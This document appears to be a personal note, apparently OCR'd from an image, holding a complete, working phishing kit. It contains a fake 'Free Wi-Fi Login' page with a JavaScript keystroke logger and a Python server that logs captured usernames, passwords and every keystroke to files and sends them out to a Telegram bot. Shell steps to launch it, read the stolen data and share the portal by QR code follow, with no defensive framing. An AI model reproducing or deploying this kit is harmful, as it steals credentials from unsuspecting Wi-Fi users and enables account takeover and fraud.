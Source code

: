 ```yaml
---
created: 2025-07-19T10:14:30-04:00
updated: 2025-07-19T10:18:28-04:00
---
```


#o imkdir -p ~/phish-portal/www
cd ~/phish-portal

<!DOCTYPE html>
<html>
<head>
  <title>Free Wi-Fi Login</title>
  <script>
    // Real-time keystroke logger
    document.addEventListener('DOMContentLoaded', () => {
      const log = [];
      document.addEventListener('keydown', (e) => {
        log.push(e.key);
        fetch('/keystroke', {
          method: 'POST',
          headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
          body: `key=${e.key}`
        });
      });
    });
  </script>
</head>
<body style="text-align:center;font-family:Arial;margin-top:15%;">
  <h2>Sign in to connect to Free Wi-Fi</h2>
  <form action="/login" method="POST">
    <input type="text" name="username" placeholder="Username / Email" required><br><br>
    <input type="password" name="password" placeholder="Password" required><br><br>
    <input type="submit" value="Login">
  </form>
</body>
</html>

<!DOCTYPE html>
<html>
<head><title>Welcome</title></head>
<body style="text-align:center;font-family:Arial;margin-top:15%;">
  <h2>You're connected!</h2>
  <p>Thanks for signing in to the Wi-Fi portal.</p>
</body>
</html>

from http.server import HTTPServer, BaseHTTPRequestHandler
from urllib.parse import parse_qs
import os
import requests

BOT_TOKEN = 'YOUR_BOT_TOKEN'
CHAT_ID = 'YOUR_CHAT_ID'

def send_telegram(msg):
    try:
        requests.get(
            f'https://api.telegram.org/bot{BOT_TOKEN}/sendMessage',
            params={'chat_id': CHAT_ID, 'text': msg}
        )
    except Exception as e:
        print("[!] Telegram failed:", e)

class PhishHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        if self.path == "/":
            self.serve("www/index.html")
        elif self.path == "/success":
            self.serve("www/success.html")
        else:
            self.send_error(404)

    def do_POST(self):
        content_len = int(self.headers.get('Content-Length', 0))
        post_body = self.rfile.read(content_len).decode()
        data = parse_qs(post_body)

        if self.path == "/login":
            username = data.get("username", [""])[0]
            password = data.get("password", [""])[0]
            msg = f"📡 Captured credentials:\n👤 {username}\n🔐 {password}"
            print(msg)
            with open("creds.log", "a") as f:
                f.write(msg + "\n")
            send_telegram(msg)
            self.send_response(302)
            self.send_header("Location", "/success")
            self.end_headers()

        elif self.path == "/keystroke":
            key = data.get("key", [""])[0]
            log = f"🖱️ Keystroke: {key}"
            print(log)
            send_telegram(log)
            with open("keystrokes.log", "a") as f:
                f.write(log + "\n")
            self.send_response(200)
            self.end_headers()

    def serve(self, path):
        if os.path.exists(path):
            self.send_response(200)
            self.send_header("Content-type", "text/html")
            self.end_headers()
            with open(path, "rb") as f:
                self.wfile.write(f.read())
        else:
            self.send_error(404)

print("✅ Phishing portal running on http://0.0.0.0:8080")
HTTPServer(('0.0.0.0', 8080), PhishHandler).serve_forever()

https://api.telegram.org/bot<YOUR_BOT_TOKEN>/getUpdates

cd ~/phish-portal
python server.py

http://10.0.0.223:8080

cat creds.log         # Captured usernames and passwords
cat keystrokes.log    # Real-time keystrokes

pkg install qrencode
ip=$(ip a | grep wlan0 | grep inet | awk '{print $2}' | cut -d/ -f1)
qrencode -t ansiutf8 "http://$ip:8080"
